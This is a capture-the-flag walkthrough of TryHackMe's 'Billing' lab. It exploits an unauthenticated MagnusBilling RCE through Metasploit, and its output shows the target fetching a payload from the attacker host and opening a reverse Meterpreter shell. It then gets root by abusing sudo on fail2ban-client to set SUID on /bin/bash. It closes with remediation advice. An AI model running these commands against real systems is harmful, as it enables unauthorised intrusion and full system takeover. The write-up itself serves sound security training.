




# Billing — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.65.140.206 | **Attacker IP:** 192.168.131.193

## Machine info


## Summary

**Billing** is a TryHackMe machine built around an unauthenticated remote code execution vulnerability in MagnusBilling, a VoIP billing platform, followed by the abuse of an overly permissive sudo rule to reach root. Nmap recon uncovers the MagnusBilling web application through a disallowed robots.txt entry, and a known unauthenticated RCE is exploited through Metasploit to land a shell as the asterisk user. From there, a passwordless sudo rule for fail2ban-client lets a custom jail action be defined and triggered as root, setting the SUID bit on /bin/bash for a direct path to root.

**Attack chain:** Nmap → MagnusBilling Unauthenticated RCE (CVE-2023-30258) → asterisk → sudo fail2ban-client Abuse → SUID /bin/bash → Root

## 1. Reconnaissance

A full TCP port scan found SSH, HTTP, MySQL and the Asterisk Call Manager open, with the HTTP service's robots.txt disallowing a `/mbilling/` path:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.65.140.206

PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 62 OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 9b:33:b2:4e:c8:1f:ef:85:fe:91:a7:5f:4f:d7:69:11 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIPGAlQm6gC/fPCCkdH1HdSec8fdAUFDBaC5lvt9VxLnqs1UhSH2pKuaPuaFaT/TbGFn413k7BQcU4Ou/Z7qfKE=
|   256 51:68:1f:20:69:1f:40:e8:55:2a:3b:d9:ae:20:66:72 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHoC4y9ETC4/BwGyUvC6HMjDjIGXwOgnymaTrsRMIV/E
80/tcp   open  http     syn-ack ttl 62 Apache httpd 2.4.62 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to ./mbilling
|_http-server-header: Apache/2.4.62 (Debian)
3306/tcp open  mysql    syn-ack ttl 62 MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk syn-ack ttl 62 Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting `/mbilling/` showed the MagnusBilling login page:



## 2. MagnusBilling Unauthenticated RCE — asterisk Foothold

Metasploit includes a module for this exact vulnerability, `exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258` (CVE-2023-30258). Its default PHP payload target kept dying right after staging, since that payload runs inside the Apache process handling the request and gets killed as soon as the response completes, so the module's Linux Dropper target — which fetches and runs a standalone binary instead — was used:

```
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set rhosts 10.65.140.206
set lhost 192.168.131.193
set target 2
```

Running the exploit confirmed the target was vulnerable and opened a stable Meterpreter session:

```
exploit
[*] Started reverse TCP handler on 192.168.131.193:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.65.140.206:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 8 seconds.
[*] Elapsed time: 8.14 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.131.193:8080/UCgpwHCgTH7n9X6
[*] Client 10.65.140.206 (Wget/1.21.3) requested /UCgpwHCgTH7n9X6
[*] Sending payload to 10.65.140.206 (Wget/1.21.3)
[*] Sending stage (3106788 bytes) to 10.65.140.206
[*] Meterpreter session 1 opened (192.168.131.193:4444 -> 10.65.140.206:39854) at 2026-11-20 18:07:31 -0500
[*] Command Stager progress - 100.00% done (123/123 bytes)
[*] Server stopped.
```

The session landed as the `asterisk` user:

```
meterpreter > getuid
Server username: asterisk
```

`sysinfo` confirmed the underlying host:

```
meterpreter > sysinfo
Computer     : ip-10-65-140-206.ec2.internal
OS           : Debian 12.11 (Linux 6.1.0-37-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

A native shell was opened from the Meterpreter session:

```
meterpreter > shell
Process 2622 created.
Channel 1 created.
```

Reading the user's target file confirmed the foothold:



## 3. Privilege Escalation to Root — fail2ban-client Abuse

`sudo -l` showed a passwordless rule for `fail2ban-client`:

```
sudo -l
Matching Defaults entries for asterisk on ip-10-65-140-206:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-65-140-206:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

Inspecting the binary showed it's a plain Python wrapper rather than a compiled binary:

```
cat /usr/bin/fail2ban-client
#!/usr/bin/python3
# emacs: -*- mode: python; py-indent-offset: 4; indent-tabs-mode: t -*-
# vi: set ft=python sts=4 ts=4 sw=4 noet :

# This file is part of Fail2Ban.
#
# Fail2Ban is free software; you can redistribute it and/or modify
# it under the terms of the GNU General Public License as published by
# the Free Software Foundation; either version 2 of the License, or
# (at your option) any later version.
#
# Fail2Ban is distributed in the hope that it will be useful,
# but WITHOUT ANY WARRANTY; without even the implied warranty of
# MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
# GNU General Public License for more details.
#
# You should have received a copy of the GNU General Public License
# along with Fail2Ban; if not, write to the Free Software
# Foundation, Inc., 51 Franklin Street, Fifth Floor, Boston, MA  02110-1301, USA.

"""
Fail2Ban reads log file that contains password failure report
and bans the corresponding IP addresses using firewall rules.

This tools starts/stops fail2ban server or does client/server communication,
to change/read parameters of the server or jails.

"""

__author__ = "Fail2Ban Developers"
__copyright__ = "Copyright (c) 2004-2008 Cyril Jaquier, 2012-2014 Yaroslav Halchenko, 2014-2016 Serg G. Brester"
__license__ = "GPL"

from fail2ban.client.fail2banclient import exec_command_line, sys

if __name__ == "__main__":
        exec_command_line(sys.argv)
```

With sudo rights over `fail2ban-client`, a custom jail action can be defined so that its `actionban` command runs as root the next time a ban is triggered. Checking the configured jails:

```
sudo fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
```

Using `sshd` as the target jail, a new action was registered:

```
sudo fail2ban-client set sshd addaction pwned
pwned
```

Its `actionban` command was then set to add the SUID bit directly to `/bin/bash`:

```
sudo fail2ban-client set sshd action pwned actionban "chmod 4755 /bin/bash"
chmod 4755 /bin/bash
```

Unbanning and re-banning a throwaway IP on that jail triggered the `actionban` command as root:

```
sudo fail2ban-client set sshd unbanip 1.1.1.1
1
```

```
sudo fail2ban-client set sshd banip 1.1.1.1
1
```

`/bin/bash` picked up the SUID bit:

```
ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 18  2025 /bin/bash
```

With the SUID bit set, spawning bash in privileged mode gave a root shell:

```
bash -p
```





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| MagnusBilling vulnerable to unauthenticated remote code execution (CVE-2023-30258) | Upgrade MagnusBilling to a patched version; sanitize all user input reaching system-level calls |
| Passwordless sudo rule for `fail2ban-client`, which can define and trigger arbitrary jail actions as root | Avoid granting sudo on `fail2ban-client` without restricting its subcommands; never allow unrestricted control of jail actions |
